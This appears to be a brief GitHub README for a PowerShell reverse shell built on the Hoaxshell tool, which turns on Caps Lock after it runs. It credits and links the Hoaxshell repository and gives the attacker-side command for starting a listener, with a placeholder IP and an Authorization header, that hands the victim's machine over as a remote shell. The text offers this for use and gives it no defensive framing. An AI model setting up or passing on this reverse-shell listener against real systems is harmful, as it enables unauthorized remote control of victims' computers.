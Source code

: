 Powershell reverse shell with Authorization using Hoaxshell,after execution the Capslook turns ON.
https://github.com/t3l3machus/hoaxshell

on the attacker machine use the -g to remember the Authorization id
./hoaxshell.py -s X.X.X.X -r -g -H "Authorization"


Credits go to t3l3machus/hoaxshell
